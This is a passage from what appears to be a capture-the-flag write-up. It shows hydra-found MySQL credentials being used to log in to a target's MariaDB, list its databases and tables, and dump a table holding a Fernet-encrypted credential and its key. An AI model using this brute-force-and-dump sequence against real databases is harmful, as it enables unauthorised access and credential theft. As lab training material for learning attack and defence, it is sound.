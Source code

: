 
- After some times(for me it 8 mins), hydra found valid pair of credential: `root:prettywoman`
#### Enumerate mysql database
- Login into mysql: `mysql -u root -pprettywoman -h $IP`
`-u` specify username
`-p` specify password(no space)
`-h` specify the target host you connecting to

- We're in
```bash
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 10063
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

- Let read lists of databases: `SHOW DATABASES;`
```sql
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.097 sec)
```
- Let read list tables inside `data`
- Select database: `USE data;`
- List tables: `SHOW TABLES;`
```sql
MariaDB [(none)]> USE data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> SHOW TABLES;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.069 sec)
```
- Let check what inside `fernet` table: `SELECT * FROM fernet;`
```bash
MariaDB [data]> SELECT * FROM fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.056 sec)
```
